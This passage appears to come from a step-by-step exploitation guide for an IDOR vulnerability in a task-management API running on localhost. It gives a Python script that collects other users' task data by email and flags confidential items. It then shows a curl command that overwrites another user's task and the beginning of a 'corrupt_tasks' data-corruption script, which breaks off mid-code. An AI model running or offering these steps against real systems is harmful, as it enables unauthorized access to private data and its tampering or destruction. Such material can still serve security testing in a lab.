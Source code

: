 2. **Analyze Extracted Data**
   ```python
   import os
   import json
   from collections import defaultdict
   
   def analyze_extracted_data(directory):
       user_data = defaultdict(list)
       sensitive_tasks = []
       
       for filename in os.listdir(directory):
           if filename.endswith('.json'):
               try:
                   with open(os.path.join(directory, filename), 'r') as f:
                       task = json.load(f)
                       
                       if 'user' in task:
                           user_email = task['user'].get('email', 'unknown')
                           user_data[user_email].append(task)
                           
                           # Flag sensitive content
                           if any(keyword in task.get('description', '').lower() 
                                  for keyword in ['confidential', 'secret', 'private']):
                               sensitive_tasks.append(task)
               
               except json.JSONDecodeError:
                   continue
       
       return dict(user_data), sensitive_tasks
   
   users, sensitive = analyze_extracted_data('idor_extraction')
   print(f"Found data for {len(users)} users")
   print(f"Found {len(sensitive)} sensitive tasks")
   ```

### Phase 4: Advanced Exploitation

1. **Cross-User Task Manipulation**
   ```bash
   # Modify other users' tasks
   curl -X PUT -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{
          "title": "COMPROMISED - Original: Important Meeting",
          "description": "This task was modified by an unauthorized user via IDOR vulnerability",
          "priority": "URGENT",
          "status": "CANCELLED"
        }' \
        "http://localhost:3000/api/tasks/15"
   ```

2. **Data Corruption Attack**
   ```python
   import requests
   
   def corrupt_tasks(token, task_ids):
       headers = {
           'Authorization': f'Bearer {token}',
           'Content-Type': 'application/json'
       }
       
       malicious_data = {
           'title': 'SYSTEM COMPROMISED',
           'description': 'All your tasks have been compromised via IDOR vulnerability. Contact security immediately.',
   ```